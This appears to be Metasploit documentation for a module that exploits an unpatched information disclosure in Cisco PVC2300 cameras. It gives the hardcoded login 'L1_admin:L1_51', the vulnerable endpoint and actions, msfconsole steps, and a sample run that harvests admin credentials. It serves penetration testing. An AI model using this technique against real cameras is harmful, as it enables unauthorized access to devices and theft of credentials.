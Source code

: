 ## Vulnerable Application
This module exploits an information disclosure vulnerability in Cisco PVC2300 cameras in order to download the configuration file
containing the admin credentials for the web interface.

The module first performs a basic check to see if the target is likely Cisco PVC2300. If so, the module attempts to obtain a sessionID
via an HTTP GET request to the vulnerable /oamp/System.xml endpoint using the `login` action and the hardcoded credentials `L1_admin:L1_51`.

If a session ID is obtained, the module uses it in another HTTP GET request to /oamp/System.xml that uses the `downloadConfigurationFile`
action in an attempt to download the configuration file.

The configuration file, if obtained, will be encdoded using base64 with a non-standard alphabet. In order to decode it,
the module first translates the encoded configuration file from the default base64 alphabet to the custom alphabet.
Then the configuration file is decoded using regular base64 and subsequently stored in the `loot` folder.

Finally, the module attempts to extract the admin credentials to the web interface from the decoded configuration file.

No known solution was made available for this vulnerability and no CVE has been published.
It is therefore likely that most (if not all) Cisco PVC2300 cameras are affected.

This module was successfully tested against several Cisco PVC2300 cameras.

## Options
No non-default options are configured.

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/cisco_pvc2300_download_config`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Scenarios
### Cisco PVC2300
```
Module options (auxiliary/gather/cisco_pvc_2300_info_disclosure):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.31.31.233    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf auxiliary(gather/cisco_pvc_2300_info_disclosure) > run
[*] Running module against 172.31.31.233

[*] The target may be vulnerable. Obtained sessionID 1122062985
[+] Successfully downloaded the configuration file
[*] Saving the full configuration file to /root/.msf4/loot/20220803124629_default_172.31.31.233_ciscopvc.config_489884.txt
[*] Obtained device name PVC2300 POE Video Camera
[+] Obtained the following admin credentials for the web interface from the configuration file:
[*] admin username: admin
[*] admin password: [obfuscated]
[*] Auxiliary module execution completed
```
